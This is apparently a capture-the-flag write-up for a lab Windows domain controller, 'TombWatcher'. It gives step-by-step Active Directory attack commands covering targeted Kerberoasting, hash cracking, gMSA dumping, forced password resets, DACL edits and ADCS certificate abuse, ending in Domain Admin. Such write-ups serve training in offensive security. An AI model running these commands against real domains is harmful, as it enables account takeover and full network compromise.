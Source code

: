 # TombWatcher

```
Difficulty: Medium
Operating System: Windows
Hints: Active Directory, Kerberoasting, ACL Abuse, GMSA, DACL Abuse, Cert-based Escalation

```

## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:

```
nmap TombWatcher.htb -sV -A
PORT      STATE SERVICE         VERSION
53/tcp    open  domain          Simple DNS Plus
80/tcp    open  http            Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec    Microsoft Windows Kerberos
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open  ldap            Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http      Microsoft Windows RPC over HTTP
636/tcp   open  ssl/ldap        Microsoft Windows Active Directory LDAP over TLS
3268/tcp  open  ldap            Microsoft Windows AD Global Catalog
3269/tcp  open  ssl/ldap        Microsoft Windows AD GC over TLS
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (WinRM)
Domain: tombwatcher.htb
Hostname: DC01.tombwatcher.htb

```

Add to /etc/hosts:
```
10.10.11.72  DC01.tombwatcher.htb TombWatcher.htb
```
Foothold
The initial credentials provided are: henry : H3nry_987TGV!

User
Method 1 - Kerberoasting with ACL Abuse (from henry to alfred)
Recon as Henry: Use bloodhound-python to gather Active Directory information.

Bash
```
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
This reveals that the Alfred user has WriteSPN rights, which is exploitable via Kerberoasting.

Kerberoasting: Use targetedKerberoast.py to add a Service Principal Name (SPN) to Alfred and dump the Kerberos TGS hash.

Bash
```
python targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'

```
Crack Hash: Crack the dumped hash using John the Ripper with a wordlist.

Bash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
The password for Alfred is basketball.

```
Method 2 - GMSA Password Dump (from alfred to ansible_dev$, then SAM and john)
Recon as Alfred: Re-run bloodhound-python with Alfred's newly acquired credentials.

Bash

```
bloodhound-python -u alfred -p 'basketball' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip

```
No immediate Domain Admin path is found, but it's identified that the Infrastructure group is modifiable.

Infrastructure Group Escalation: Add Alfred to the Infrastructure group using bloodyAD.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u alfred -p 'basketball' add groupMember INFRASTRUCTURE alfred
```

GMSA Password Dump: Use gMSADumper.py to find and dump Group Managed Service Account (GMSA) blobs.

Bash
```
python gMSADumper.py -u alfred -p basketball -d tombwatcher.htb
```
This shows that the Infrastructure group can read the password for ansible_dev$.

Change Passwords via GMSA: Utilize bloodyAD to change the passwords for the SAM and john accounts by leveraging the ansible_dev$ GMSA account's dumped credentials.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u 'ansible_dev$' -p ':4b21348ca4ay…' set password SAM 'jhvc@4569@'
```
```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u SAM -p 'jhvc@4569@' set password john 'jhvc@4569@'

```
This grants access to the john account, and user.txt can be retrieved.

## Root
Once we log in as john, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors. After we run linPEAS, we can notice a path for Active Directory Certificate Services (ADCS) abuse.

DACL Abuse for OU Takeover (from john to cert_admin)
DACL Abuse: Grant john FullControl over the OU=ADCS,DC=TOMBWATCHER,DC=HTB using impacket-dacledit.

Bash
```
impacket-dacledit \
  -action write \
  -rights FullControl \
  -inheritance \
  -principal john \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  tombwatcher.htb/SAM:'jhvc@4569@'
```

This gives john control over the ADCS Organizational Unit.

Restore & Change cert_admin Password: Inside an Evil-WinRM session as john, identify and restore the deleted cert_admin account, enable it, and reset its password.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Enable-ADAccount -Identity cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "jhvc@4569@" -AsPlainText -Force)
```

Then, confirm the password change for cert_admin using bloodyAD.

Bash

```

bloodyAD --host '10.10.11.72' -d tombwatcher.htb \
  -u john -p 'jhvc@4569@' set password cert_admin 'jhvc@4569@'

```
The cert_admin account is now controlled.

Certificate-Based Privilege Escalation (from cert_admin to Administrator)
Cert Enumeration: Use certipy to enumerate the Certificate Authority (CA) and available certificate templates, looking for vulnerabilities.

Bash
```
certipy find -u cert_admin -p "jhvc@4569@" -dc-ip 10.10.11.72 -vulnerable
```
This reveals the WebServer template with "Enrollee supplies subject: True" and an "ESC15 vulnerability detected".

Plan A (ESC15 / ESC1): Request a certificate with Client Authentication and an Administrator UPN using certipy.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' \
  -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -upn 'administrator@tombwatcher.htb' \
  -application-policies 'Client Authentication'
```
Then, use the generated PFX file to authenticate as the Administrator and obtain a shell.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```
From here, the Administrator's password can be changed, leading to full Domain Administrator access.

Plan B (Certificate Request Agent Attack - Alternative): If Plan A is not feasible, obtain an Agent certificate.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```
Then, impersonate the Administrator by requesting a user certificate on their behalf.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'User' \
  -pfx cert_admin.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```
Finally, authenticate using the on-behalf-of certificate to retrieve the Administrator's TGT, ccache, or NT hash, granting Domain Administrator privileges.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```

## Summary:

🏁 Summary of Attack Chain

```

| Step | User / Access     | Technique Used                   | Result                                   |
| :--- | :---------------- | :------------------------------- | :--------------------------------------- |
| 1    | henry             | BloodHound                       | Found SPN write rights on Alfred         |
| 2    | henry → Alfred    | Kerberoast (SPN abuse)           | Cracked Alfred’s password                |
| 3    | alfred            | BloodHound                       | Found Infrastructure group modifiable    |
| 4    | alfred            | bloodyAD                         | Added Alfred to Infrastructure           |
| 5    | alfred            | gMSADumper                       | Dumped GMSA blob                         |
| 6    | ansible_dev$      | GMSA Abuse & bloodyAD            | Changed SAM, john, user.txt              |
| 7    | john              | impacket-dacledit                | Gained FullControl on ADCS OU            |
| 8    | john              | Restore ADObject & bloodyAD      | Took over cert_admin account             |
| 9    | cert_admin        | certipy                          | Enumerated CA, WebServer template (ESC15)|
| 10   | cert_admin → DA   | cert-based escalation (ESC15/ESC1/B) | Full domain admin access (Administrator) |

```